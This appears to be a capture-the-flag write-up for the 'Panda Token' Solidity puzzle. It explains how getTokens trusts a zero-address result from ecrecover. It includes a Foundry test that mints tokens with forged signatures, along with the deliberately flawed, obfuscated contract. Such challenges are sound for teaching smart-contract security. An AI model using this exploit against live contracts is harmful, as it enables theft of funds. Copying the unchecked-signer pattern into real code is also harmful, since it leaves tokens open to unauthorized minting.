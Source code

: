 ## Panda Token attack

The Panda Token is vulnerable to a wrong implementation of the `ecrecover` function and not checking the signer.

`ecrecover` instead of reverting, returns the zero address as the signer. The current implementation in the `getTokens` functions is not checking if the signer is not the zero address and as the zero address has 10 ether in balanceOf(address(0)) the require check for the balance will always pass until it is used 10 times.

As we only need 3 tokens we just need to submit 3 different "valid" signatures.

`bytes memory signature` is decoded like
```solidity
assembly {
    r := mload(add(signature, 0x20))
    s := mload(add(signature, 0x40))
    v := byte(0, mload(add(signature, 0x60)))
}
```
So we just need to encode our signature like `abi.encode(r, s, v)`

To bypass the `used signature` check we can just use a different v for each call to bypass all checks and mint 3 times.

## Test

forge test --match-contract=PandaHackTest
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

import "openzeppelin/contracts/token/ERC20/ERC20.sol";
import "openzeppelin/contracts/access/Ownable.sol";

contract PandaHackTest is Test {
    PandaToken pandatoken;
    address owner = vm.addr(1);
    address hacker = vm.addr(2);

    function setUp() external {
        vm.prank(owner);
        pandatoken = new PandaToken(400, "PandaToken", "PND");
    }

    function test() public {
        vm.startPrank(hacker);
        bytes32 hash = keccak256(abi.encode(hacker, 1 ether));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

        // your goal - to have 3 tokens (3e18) on your own(hacker) balance.
        // solution
        bytes memory signature_1 = abi.encode(r, s, v);
        pandatoken.getTokens(1 ether, signature_1);
        
        bytes memory signature_2 = abi.encode(r, s, v + 1);
        pandatoken.getTokens(1 ether, signature_2);
        
        bytes memory signature_3 = abi.encode(r, s, v + 2);
        pandatoken.getTokens(1 ether, signature_3);

        assertEq(pandatoken.balanceOf(hacker), 3 ether);
    }
}

contract PandaToken is ERC20, Ownable {
    uint public c1;
    mapping(bytes => bool) public usedSignatures;
    mapping(address => uint) public burnPending;
    event show_uint(uint u);

    function sMint(uint amount) external onlyOwner {
        _mint(msg.sender, amount);
    }

    constructor(
        uint _c1,
        string memory tokenName,
        string memory tokenSymbol
    ) ERC20(tokenName, tokenSymbol) {
        assembly {
            let ptr := mload(0x40)
            mstore(ptr, sload(mul(1, 110)))
            mstore(add(ptr, 0x20), 0)
            let slot := keccak256(ptr, 0x40)
            sstore(slot, exp(10, add(4, mul(3, 5))))
            mstore(ptr, sload(5))
            sstore(6, _c1)
            mstore(add(ptr, 0x20), 0)
            let slot1 := keccak256(ptr, 0x40)
            mstore(ptr, sload(7))
            mstore(add(ptr, 0x20), 0)
            sstore(slot1, mul(sload(slot), 2))
        }
    }

    function calculateAmount(
        uint I1ILLI1L1ILLIL1LLI1IL1IL1IL1L
    ) public view returns (uint) {
        uint I1I1LI111IL1IL1LLI1IL1IL11L1L;
        assembly {
            let I1ILLI1L1IL1IL1LLI1IL1IL11L1L := 2
            let I1ILLILL1IL1IL1LLI1IL1IL11L1L := 1000
            let I1ILLI1L1IL1IL1LLI1IL1IL11L11 := 14382
            let I1ILLI1L1IL1ILLLLI1IL1IL11L1L := 14382
            let I1LLLI1L1IL1IL1LLI1IL1IL11L1L := 599
            let I1ILLI111IL1IL1LLI1IL1IL11L1L := 1
            I1I1LI111IL1IL1LLI1IL1IL11L1L := div(
                mul(
                    I1ILLI1L1ILLIL1LLI1IL1IL1IL1L,
                    I1ILLILL1IL1IL1LLI1IL1IL11L1L
                ),
                add(
                    I1LLLI1L1IL1IL1LLI1IL1IL11L1L,
                    add(I1ILLI111IL1IL1LLI1IL1IL11L1L, sload(6))
                )
            )
        }

        return I1I1LI111IL1IL1LLI1IL1IL11L1L;
    }

    function getTokens(uint amount, bytes memory signature) external {
        uint giftAmount = calculateAmount(amount);

        bytes32 msgHash = keccak256(abi.encode(msg.sender, giftAmount));
        bytes32 r;
        bytes32 s;
        uint8 v;

        assembly {
            r := mload(add(signature, 0x20))
            s := mload(add(signature, 0x40))
            v := byte(0, mload(add(signature, 0x60)))
        }

        address giftFrom = ecrecover(msgHash, v, r, s);
        burnPending[giftFrom] += amount;
        require(amount == 1 ether, "amount error");
        require(
            (balanceOf(giftFrom) - burnPending[giftFrom]) >= amount,
            "balance"
        );
        require(!usedSignatures[signature], "used signature");
        usedSignatures[signature] = true;
        _mint(msg.sender, amount);
    }

    function burnPendings(address burnFrom) external onlyOwner {
        burnPending[burnFrom] = 0;
        _burn(burnFrom, burnPending[burnFrom]);
    }
}
```
